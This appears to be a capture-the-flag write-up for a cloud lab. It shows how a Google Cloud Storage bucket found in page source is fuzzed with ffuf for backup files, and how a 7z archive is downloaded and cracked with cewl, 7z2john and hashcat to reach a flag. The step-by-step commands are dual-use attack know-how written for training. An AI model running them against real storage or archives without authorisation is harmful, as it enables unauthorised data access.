

## Initial entry point

we have been provided with the following details 

  
| Type | Value |
|------|-------|
| Host | [https://careers.gigantic-retail.com/index.html](https://careers.gigantic-retail.com/index.html) |


  

## Solution

  

After visiting the URL, Mostly I’ll going `view-source:`  since they revealed that we can utilise the **“CTF Approach”** and found a google storage URL inside a comment

  

 

  

If you open the URL directly not with an image results in 403 displaying that the anonymous users doesn’t access to it and in other terms basically they don’t have `storage.objects.list` permission access and it is denied to list the objects inside the bucket

  

 

  

Through the commandline using gsutils which is part of gcloud sdk offerings by google cloud just like every other CSP offers for an example, AWS offers awscli to interact via commandline also can’t able to do enumeration similiar to what we faced in web UI 

  

```sh
root@a181f9b9c5b0:/# gsutil ls gs://it-storage-bucket/
AccessDeniedException: 403 nithissh.sec@gmail.com does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist).
```

  

Ok, let’s keep the gcloud sdk and those aside.. just like what we do in the CTFs we can do a content discovery using ffuf and following wordlist [here](https://raw.githubusercontent.com/xajkep/wordlists/master/discovery/backup_files_only.txt "https://raw.githubusercontent.com/xajkep/wordlists/master/discovery/backup_files_only.txt") to find are there backup files left because most of the times the object storage such as gcloud storage or it might be s3 we will have our backup files in some sort of compressed format like zip or a tar file or even sometimes inside a folder in an organized

  

After running ffuf and we found that there is `backup.7z`  

  

```sh
 ✘ nits@FWS-CHE-LT-8869  /tmp  ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://storage.googleapis.com/it-storage-bucket/FUZZ
 :: Wordlist         : FUZZ: /tmp/backup_files_only.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

backup.7z               [Status: 200, Size: 22072, Words: 102, Lines: 101, Duration: 552ms]
:: Progress: [1015/1015] :: Job [1/1] :: 119 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

  

Now you can pull the zip eithier through the web UI or even through `gsutils`  but my preference is to pull it using `gsutils`  because our endgoal is to learn gcp enum process right and with the following command, we have successfully pulled the zip file from the cloud storage to local

  

```sh
root@a181f9b9c5b0:/# gsutil cp gs://it-storage-bucket/backup.7z ./
Copying gs://it-storage-bucket/backup.7z...
- [1 files][ 21.6 KiB/ 21.6 KiB]
Operation completed over 1 objects/21.6 KiB.
```

  

Opening the zip file and shows that we need to input the password and we aren’t aware of it 

  

 
  

We need to install few tools like 7z2john where it will change the 7z file into bruteforceable format comptiable with john and for wordlist we gonna be using cewl 

  

```sh
root@a181f9b9c5b0:/# cewl https://careers.gigantic-retail.com/index.html > wordlist.txt
root@a181f9b9c5b0:/# wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/7z2john.pl ; apt install libcompress-raw-lzma-perl -y
```

  

With 7z2john, we have hash and from the cewl we got the wordlist 

  

```sh
root@a181f9b9c5b0:/tmp# perl /7z2john.pl ./backup.7z > pass.hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
root@a181f9b9c5b0:/tmp# wc -l /wordlist.txt
117 /wordlist.txt
```

  

Now, we have successfully cracked the password using hashcat and password is `balance` 

  

```sh
nits@FWS-CHE-LT-8869  /tmp  hashcat -m 11600 pass.hash wordlist.txt
hashcat (v6.2.6) starting


Session..........: hashcat
Status...........: Running
Hash.Mode........: 11600 (7-Zip)
Hash.Target......: $7z$2$19$0$$8$1090375a5c67675f0000000000000000$3425...160$08
Time.Started.....: Sat Apr 20 21:50:32 2024 (16 secs)
Time.Estimated...: Sat Apr 20 21:51:09 2024 (21 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        5 H/s (4.89ms) @ Accel:32 Loops:128 Thr:64 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 0/117 (0.00%)
Rejected.........: 0/0 (0.00%)
Restore.Point....: 0/117 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:401280-401408
Candidate.Engine.: Device Generator
Candidates.#1....: CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/) -> Image
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#1..: Util:100%

$7z$2$19$0$$8$1090375a5c67675f0000000000000000$3425971665$21840$21837$f4241ca97e603bf4f3e6375e64c70a8a3f335cbbcbdf16ec62415c827d6dfb865c6cc79902a573a0146c2085cb1bf07b4e9e92ae5924e06538fa5890e6dd2163d9f276f25d1c699fc1bd4fb4fd1b50e9f1d2f1c58ece855d51e466c0a01966c09c4f0fe77d1dcc0df34ef90834e9f88b0abb610dc7fa1c454f9fc74fe6ba2f2bdef72f33fc11c96eb243b029f410abbba395837afabe2c0fdfc383241d2d49c785e86bfdebf09cf36b587b12738103d64e08d2aa1bf3bee9c8623c158d3374d1827997e4eb30cac15bf6db731d0bce6fc8e3e32a3b5ea5821b82a100bccb3a333c1099f5dca5ccf6dd0335599281dd4e68f071e8dbe41f75285f3b1eab89333236e40cb318e658b1386d4971d6d4285c6c3a639313a120ff93008e754a49b1fb331d8839c7e0a1de2f5f06d4913b9051660c5c5c0f1ee9b31bb39e8d4671dfef929171badb67def61e68550c48e83e82e31aa4f7c1b3e7b08bf1247527ee6253d2672a4dbeece7fed9b7e8ddb294db0aec69f5de5ef98e07343699225d932391ae9b0fbf230b4b2194dad2643273f08c81e345f5ac501dfbab2266097e7a016da89fbb4cc6343a5b3a83f40bf872ca667d55d885370dfd166558cf50a442408cc68df17773facb7a829c098b31ae24ed7ce20bb4797d71eaea1eb5a01f0ae3d92bbaa2dc8b4cefc96752bb1b71df4b96d9f14fcd49877acb64d90477d7c34796a836ff5c9422739a6cf5057b9157042a29c63db528bd790b7b9430067590473042be28ac7293a4435fc9f6a529674e1f237b94a9da10385d37703a125ad76222fc0b9fbb33505b79ca8a35e147715032022ff80c9590343e1a91b13db$54160$08:balance
```

  

Extracted the 7zip file and found the flag.txt which is our endgoal actually 

  

```sh
 nits@FWS-CHE-LT-8869  /tmp  7z x backup.7z

7-Zip [64] 17.05 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.05 (locale=utf8,Utf16=on,HugeFiles=on,64 bits,10 CPUs LE)

Scanning the drive for archives:
1 file, 22072 bytes (22 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 22072
Headers Size = 232
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1


Enter password (will not be echoed):
Everything is Ok

Files: 2
Size:       54193
Compressed: 22072
 nits@FWS-CHE-LT-8869  /tmp  ls
7zipcrack                                  backup_files_only.txt                      flag.txt                                   freshservice.agentautoupdate.daemon.stdout powerlog
Common-DB-Backups.txt                      colima                                     freshservice.agent.daemon.stderr           jamf_login.log                             rockyou.txt
MozillaUpdateLock-2656FF1E876E9973         com.apple.launchd.aY4MEK5QDZ               freshservice.agent.daemon.stdout           jamf_unlock_login.log                      wordlist.txt
backup.7z                                  customers-credit-review.csv                freshservice.agentautoupdate.daemon.stderr pass.hash
 nits@FWS-CHE-LT-8869  /tmp  cat flag.txt
ea0aebbb6d68571f668e18c8fc03589d
```